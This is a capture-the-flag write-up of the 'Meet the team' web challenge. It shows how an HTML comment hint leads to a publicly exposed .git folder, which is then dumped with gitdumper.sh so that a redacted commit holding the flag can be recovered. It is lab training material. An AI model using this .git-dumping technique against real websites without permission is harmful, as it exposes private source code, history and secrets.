


# Meet the team

## The brief

```
Recover the list of employees working at CONSTELLATIONS.

With the flag of this challenge, you should find new information that will help with future challenges.

You should find the flag for this challenge ON THIS constellations.page website. You will not find it on GitHub.

HINT: "Can we please stop sharing our version control software out on our website?"

HINT AGAIN: you are looking for a publicly accessible version control software folder published on the constellations.page website itself

After solving this challenge, you may need to refresh the page to see the newly unlocked challenges.
```
Again we have to look at the `constellations.page` page. And from `Bionic` we have the `meet-the-team.html` page!

## Page
</br>

</br>

We have to recover the list! Again we can use [webctf](https://github.com/xnomas/web-ctf-help) to find hints:
```
webctf https://constellations.page/meet-the-team.html

=============
COMMENTS
=============

[+] 1 :   Vela, can we please stop sharing our version control software out on the public internet?  <----
[+] 2 :   Bootstrap core CSS
[+] 3 :   Custom fonts for this template
[+] 4 :   Custom styles for this template
[+] 5 :   Navigation
[+] 6 :   Header
[+] 7 :   About Section
[+] 8 :   Contact Section
[+] 9 :   Footer
[+] 10 :   Bootstrap core JavaScript
[+] 11 :   Plugin JavaScript
[+] 12 :   Custom scripts for this template

=============
SCRIPTS
=============

[+] 1 : assets/vendor/jquery/jquery.min.js
[+] 2 : assets/vendor/bootstrap/js/bootstrap.bundle.min.js
[+] 3 : assets/vendor/jquery-easing/jquery.easing.min.js
[+] 4 : assets/js/grayscale.min.js

=============
IMAGES
=============

sources:
--------
[+] 1 : assets/img/laptop.png

alts:
-----
[+] 1 :

===================
INTERESTING HEADERS
===================

Server : Apache/2.4.25 (Debian)
```
We are looking for a popular Version Control service folder.... maybe `.git`:
</br>

</br>
But nope! Time to go deeper! `.git/logs/`, also nothing. How about `.git/logs/HEAD`?
```
0000000000000000000000000000000000000000 1142cc3145fdba8d9eb8f9c9e7ee79bdfda64d9a Leo Rison <leo.rison@constellations.page> 1614124430 -0500	commit (initial): Added initial assets and landing page
1142cc3145fdba8d9eb8f9c9e7ee79bdfda64d9a 87b17a86409582c162e260795afdf104dc1d46b1 Leo Rison <leo.rison@constellations.page> 1614124968 -0500	commit: Added the Meet The Team page
87b17a86409582c162e260795afdf104dc1d46b1 8e9e7afad5d1f7c6c3dcf322a3a94aeebc1e0073 Leo Rison <leo.rison@constellations.page> 1614125173 -0500	commit: Management said I need to remove the team details so I redacted that page and added it to robots.txt
8e9e7afad5d1f7c6c3dcf322a3a94aeebc1e0073 87b17a86409582c162e260795afdf104dc1d46b1 Leo Rison <leo.rison@constellations.page> 1614125488 -0500	checkout: moving from master to 87b17a
87b17a86409582c162e260795afdf104dc1d46b1 0780dea9ede681b1e4276d74740bb11056d97c39 Leo Rison <leo.rison@constellations.page> 1614125881 -0500	commit: Management said I need to remove the team details so I redacted that page and added it to robots.txt
0780dea9ede681b1e4276d74740bb11056d97c39 87b17a86409582c162e260795afdf104dc1d46b1 Leo Rison <leo.rison@constellations.page> 1614125918 -0500	checkout: moving from 0780dea9ede681b1e4276d74740bb11056d97c39 to 87b17a86409582c162e260795afdf104dc1d46b1
87b17a86409582c162e260795afdf104dc1d46b1 1142cc3145fdba8d9eb8f9c9e7ee79bdfda64d9a Leo Rison <leo.rison@constellations.page> 1614125954 -0500	checkout: moving from 87b17a86409582c162e260795afdf104dc1d46b1 to 1142cc
1142cc3145fdba8d9eb8f9c9e7ee79bdfda64d9a 4c88ac1c56fe228267cf415c3ef87d7c3b8abd60 Leo Rison <leo.rison@constellations.page> 1614125972 -0500	commit: Added the Meet The Team page
4c88ac1c56fe228267cf415c3ef87d7c3b8abd60 e7d4663ac6b436f95684c8bfc428cef0d7731455 Leo Rison <leo.rison@constellations.page> 1614126014 -0500	commit: Management said I need to remove the team details so I redacted that page and added it to robots.txt
```
And we want to get to this:
```
1142cc3145fdba8d9eb8f9c9e7ee79bdfda64d9a 4c88ac1c56fe228267cf415c3ef87d7c3b8abd60 Leo Rison <leo.rison@constellations.page> 1614125972 -0500	commit: Added the Meet The Team page
```
Before the removal. 

## Dumping

I used this [tool](https://github.com/internetwache/GitTools), specificaly `gitdumper.sh`:
```
gitdumper.sh https://constellations.page/.git/ git
```
So like this I got eeeeeverything. 
```bash
cd git; cd .git; git log

commit 4c88ac1c56fe228267cf415c3ef87d7c3b8abd60
Author: Leo Rison <leo.rison@constellations.page>
Date: Tue Feb 23 18:53:50 2021 -0500

    Added the Meet The Team page

```
And this is the commit we want, now just `git show 4c88ac1c56fe228267cf415c3ef87d7c3b8abd60`:
```html
<!-- <li><h4><b>flag{4063962f3a52f923ddb4411c139dd24c}</b></h4></li> -->
```
Voila!q
